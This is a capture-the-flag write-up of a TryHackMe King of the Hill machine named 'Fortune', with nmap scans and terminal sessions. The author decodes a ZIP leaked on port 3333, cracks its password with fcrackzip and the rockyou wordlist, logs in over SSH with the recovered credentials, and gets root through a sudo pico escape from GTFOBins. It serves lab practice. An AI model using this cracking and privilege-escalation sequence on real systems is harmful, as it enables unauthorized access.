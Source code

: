 ```yaml
---
tagline: fortune
title: Fortune | KOTH Writeup 
description: A Concise KOTH Writeup.
banner: /blog/CTF_lg.png/
banner_alt: we luv u godder
date: '2024-04-14'
---
```


## NMAP

- I used `sudo nmap -sV -sC 10.10.148.32` for my scan.

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sV -sC 10.10.148.32 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-14 15:40 EDT
Nmap scan report for 10.10.148.32
Host is up (0.092s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:ae:18:87:b8:c3:35:b6:3a:af:0e:a4:c3:a2:ef:13 (RSA)
|   256 42:cf:fe:0d:cb:92:24:b9:8f:dc:11:d4:10:a7:a0:3e (ECDSA)
|_  256 5c:fc:bc:c9:3a:01:b1:b6:78:ac:66:3c:34:8f:22:2a (ED25519)
80/tcp   open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wheel of Fortune!
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
111/tcp  open  rpcbind    2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      43991/tcp   mountd
|   100005  1,2,3      51188/udp   mountd
|   100005  1,2,3      53990/udp6  mountd
|   100005  1,2,3      54207/tcp6  mountd
|   100021  1,3,4      38116/udp   nlockmgr
|   100021  1,3,4      38145/tcp   nlockmgr
|   100021  1,3,4      39708/udp6  nlockmgr
|   100021  1,3,4      45597/tcp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs        3-4 (RPC #100003)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, JavaRMI, LPDString, NULL, kumo-server: 
|     UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwAB
|     BAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAA
|     UEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU
|_    BQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.90 seconds
```

## Getting User

- Dirsearch gave us nothing.

- If we look at the NMAP Scan, on port 3333 we see this

```bash:Terminal
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, JavaRMI, LPDString, NULL, kumo-server: 
|     UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwAB
|     BAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAA
|     UEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVU
|_    BQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=
9999/tcp open  http       Werkzeug httpd 1.0.1 (Python 3.6.9)
```

- Cyberchef tells us that it is a ZIP.

![Image showing pkzip](/blog/fortune/pkzip.png 'Fig.1')

- Lets see whats inside.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ echo 'UEsDBAoACQAAAFSjjliKv3GtHwAAABMAAAAJABwAY3JlZHMudHh0VVQJAAPwLRxm8C0cZnV4CwABBAAAAAAEAAAAAOjukMXnRaL/b0hG/sRdaxmEI1JLOfuZYAbRbHKk9xNQSwcIir9xrR8AAAATAAAAUEsBAh4DCgAJAAAAVKOOWIq/ca0fAAAAEwAAAAkAGAAAAAAAAQAAAKSBAAAAAGNyZWRzLnR4dFVUBQAD8C0cZnV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAE8AAAByAAAAAAA=' | base64 -d > cred.zip
┌──(vipin㉿vipin)-[~/Desktop]
└─$ unzip cred.zip
Archive:  cred.zip
[cred.zip] creds.txt password: 
```

- Seems like it is password protected. I will crack it with **fcrackzip**

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ fcrackzip -u -D -p  /usr/share/wordlists/rockyou.txt /home/vipin/Desktop/cred.zip


PASSWORD FOUND!!!!: pw == peaceout
```

- Now that we have the password, we can unzip the file.

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ unzip cred.zip
Archive:  cred.zip
[cred.zip] creds.txt password: 
 extracting: creds.txt               
                                                                                                       
┌──(vipin㉿vipin)-[~/Desktop]
└─$ cat creds.txt 
fortuna:MGE0OTJiM2
```

- It seems to be credentials to the user *fortuna*, 

```bash:Terminal
┌──(vipin㉿vipin)-[~/Desktop]
└─$ ssh fortuna@$IP               
The authenticity of host '10.10.148.32 (10.10.148.32)' can't be established.
ED25519 key fingerprint is SHA256:UlktbYjOEgkrcijQ2e1j4iJ3u9hj8b2xzTtKJE5YTIw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.148.32' (ED25519) to the list of known hosts.
fortuna@10.10.148.32's password: 



        ################################
        ###  Come to try your luck?  ###
        ### Welcome to your fortune! ###
        ################################

```

- The credentials worked!

## Rooting the machine

- I started by running `sudo -l`

```bash:Terminal
fortuna@fortune:~$ sudo -l
[sudo] password for fortuna: 
Matching Defaults entries for fortuna on fortune:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fortuna may run the following commands on fortune:
    (ALL : ALL) /usr/bin/pico
```

> What is pico?

- **Pico** is a text editor like **nano** and **vim**.

- Lets see how we can utilize it to get root, we will be using [gtfobins](https://gtfobins.github.io/gtfobins/pico/) to do this.

![Image showing gtfobin pico](/blog/gtfobinpico.png 'Fig.2')

- And it worked! (I forgot to take an image of it 😢)

- Once I got root I spawned a PTY with `python -c'import pty; pty.spawn("/bin/bash")'`

- After I got root, I put my name in the kings file

```bash:Terminal
root@fortune:/root# ls
flagtips.txt  king.txt
root@fortune:/root# cat flagtips.txt
Some flags are flags, some flags are games.
Good luck!
root@fortune:/root# echo 'vipin.b' > king.txt 
root@fortune:/root# cat king.txt
vipin.b
root@fortune:/root# 
```

- Seems like there isn't a root flag. Atleast we rooted the machine!

### MACHINE PWN'ED 😎

![My Tryhackme badge](https://tryhackme-badges.s3.amazonaws.com/vipin.b.png)






